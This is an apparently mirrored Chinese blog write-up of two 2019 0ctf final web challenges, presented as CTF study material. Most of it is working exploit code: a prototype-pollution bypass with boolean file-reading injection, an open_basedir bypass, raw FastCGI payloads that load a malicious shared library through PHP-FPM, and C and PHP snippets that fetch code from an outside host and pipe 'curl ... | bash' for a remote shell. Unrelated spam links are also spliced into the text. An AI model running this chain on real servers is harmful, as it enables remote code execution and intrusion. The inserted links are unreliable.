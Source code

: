 <!--yml
category: 未分类
date: 2022-04-26 14:47:23
-->

# 实战：2019 0ctf final Web Writeup（一）_systemino的博客-CSDN博客

> 来源：[https://blog.csdn.net/systemino/article/details/94645518](https://blog.csdn.net/systemino/article/details/94645518)

**前言**

鸽了好久的题解，因为自己事务缠身，一直没时间写一下最近比赛的题解，趁近日有空，来填坑~

第一次参加0ctf新星赛就拿了冠军，还是非常开心的。比赛过程中，web共4道题，我有幸做出3道，java实在不太擅长，哭了（另一道是ocaml的题目，涉及小trick和逻辑问题，准备放在后面和java一起编写（希望不要咕咕咕了）。这里写出另外两道题目的题解如下：

**114514_calcalcalc**

本题是2019 RCTF calcalcalc的改版，这次限制了之前的时间延迟注入的问题，同时需要Bypass validator：

![实战：2019 0ctf final Web Writeup（一）](img/173fa3f0cb992d745db1c451474c4f86.png)

我们可以使用__proto__来进行Bypass：

![实战：2019 0ctf final Web Writeup（一）](img/f14478265b6bde5703825a69752b6a97.png)

至于时间注入的问题，我们可以使用bool注入来解决这个问题：

```
{"__proto__": {}, "isVip": true, "expression": "1//1 and ord(open('/flag').read()[1]) >-1 and 1\n"}
```

php下：

![实战：2019 0ctf final Web Writeup（一）](img/c67e28f59163f60923da443ae7fadff5.png)

nodejs下：

![实战：2019 0ctf final Web Writeup（一）](img/80c45d11226340678cc27872d18606e7.png)

python下：

![实战：2019 0ctf final Web Writeup（一）](img/3a9d9797a92aa251014ac2504587d5e4.png)

当ord(open('/flag').read()[1]) >-1成立时，python返回1，与另外两个保持一致。当ord(open('/flag').read()[1]) >-1不成立时，返回That's classified information. – Asahina Mikuru。故此可以进行bool注入：[PHP大马](http://caidaome.com/)

![实战：2019 0ctf final Web Writeup（一）](img/0d348f00500462754b6608aec3e7a4b1.png)

**wallbreaker_not_very_hard**

本题是2019 0ctf online和2019 *CTF的难度提升题，拿到题目较为明显的2个条件：

首先是disable_function，过滤了如下函数：

```
Wall B: pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log
```

然后是open_basedir限制了如下目录：

```
Wall C: /var/www/html:/tmp
```

题目提示我们：

```
Here's a backdoor, to help you break Wall A.
But you should find the key of the backdoor.
```

于是进行目录爆破，得到如下文件泄露：

```
http://192.168.1.106:10001/.index.php.swp
```

打开后发现后门:

![实战：2019 0ctf final Web Writeup（一）](img/af4591654a19db005470b0da091c2409.png)

这里很自然想到*CTF的解法：[奇热影视](https://qire120.com/)

```
https://github.com/sixstars/starctf2019/tree/master/web-echohub
```

那么既然需要使用stream_socket_client和stream_socket_sendto连接php-fpm服务，那么我们需要知道unix:///run/php/php7.3-fpm.sock文件名，那么肯定需要Bypass open_basedir。

这里容易想到之前的相关poc，参考链接如下：

```
https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/
```

尝试构造：

```
chdir('/tmp');
mkdir('sky');
chdir('sky');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
var_dump(ini_get('open_basedir'));
var_dump(glob('*'));
```

发现可以成功bypass open_basedir：

![实战：2019 0ctf final Web Writeup（一）](img/7de50e6deea97000f545de5c8644fea1.png)

通过列目录，可找到文件名如下：

![实战：2019 0ctf final Web Writeup（一）](img/3c5dad1c80fa0bdf043cabbd0e24116c.png)

但尝试使用/var/run/php/U_wi11_nev3r_kn0w.sock，并使用*ctf exp时，发现依然会被disable function限制，那么显然我们还得继续bypass disable function。

那么自然容易想到寻找引入拓展的地方，引入一个hack.so文件，hook函数，达到RCE的目的，这一点和之前2019 0ctf online的时候非常相似，这是当时已经给了现成的拓展和可用函数。

这里可以参考ph牛的文章：

```
https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html
```

在文章中，ph牛剖析的非常透彻，可以帮助我们理解PHP-FPM未授权访问漏洞，既然知道了我们需要构造fastcgi协议和fpm进行通信。

那么势必需要找到fastcgi中是否有更改disable_functions的选项，或者引入extension的选项。同时利用auto_prepend_file和auto_append_file让php执行任意代码。并且文中提及，PHP-FPM的两个环境变量，PHP_VALUE和PHP_ADMIN_VALUE。这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。但disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中。

![实战：2019 0ctf final Web Writeup（一）](img/3388f4bc35de3d0ddc38e1280bb41406.png)

所以思路更加明确了，我们应该是要找到PHP_ADMIN_VALUE的某个选项，可以帮助我们引入extension。

搜索易得,我们可以利用如下方式，引入指定位置的so文件：

```
PHP_ADMIN_VALUE['extension'] = /tmp/sky.so
```

 这里我们改写ph牛提供的脚本：

```
https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75
```

![实战：2019 0ctf final Web Writeup（一）](img/e439de637c80d8a108a648e2a9b060e1.png)

可以构造出如下exp：

```
%01%01%F8%F1%00%08%00%00%00%01%00%00%00%00%00%00%01%04%F8%F1%01%DC%00%00%0E%02CONTENT_LENGTH19%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%17PHP_ADMIN_VALUEextension%20%3D%20/tmp/sky.so%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%17REQUEST_URI/var/www/html/index.php%01%04%F8%F1%00%00%00%00%01%05%F8%F1%00%13%00%00%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%01%05%F8%F1%00%00%00%00
```

但在使用之前，我们需要首先在/tmp目录下上传一个恶意so文件，我们利用如下github项目进行构造：

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
__attribute__ ((__constructor__)) void preload (void)
{
    system("curl xxxx | bash");
}
```

然后编译：

```
gcc -c -fPIC sky.c -o sky
gcc --share sky -o sky.so
```

接着将sky.so进行上传：

```
$upload = '/tmp/sky.so';
echo copy("http://vps_ip/sky.so", $upload);
```

![实战：2019 0ctf final Web Writeup（一）](img/0a18a3bc8a1b293b8bf9763a19795a7a.png)

最后我们整合上述exp，给出完整Payload：

```
$fp = stream_socket_client("/var/run/php/U_wi11_nev3r_kn0w.sock", $errno, $errstr,30);$out = urldecode("%01%01%1C%AE%00%08%00%00%00%01%00%00%00%00%00%00%01%04%1C%AE%01%DC%00%00%0E%02CONTENT_LENGTH51%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%17SCRIPT_FILENAME/var/www/html/index.php%0B%17SCRIPT_NAME/var/www/html/index.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%17PHP_ADMIN_VALUEextension%20%3D%20/tmp/sky.so%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%17REQUEST_URI/var/www/html/index.php%01%04%1C%AE%00%00%00%00%01%05%1C%AE%003%00%00%3C%3Fphp%20hello_world%28%27curl%20106.14.114.127%20%7C%20bash%27%29%3B%20%3F%3E%01%05%1C%AE%00%00%00%00");stream_socket_sendto($fp,$out);while (!feof($fp)) {echo htmlspecialchars(fgets($fp, 10)); }fclose($fp);//'
```

即可getshell。

**后记**

总的来说，这篇文章的两个题，都是之前比赛题目的升级版，还是比较有趣的。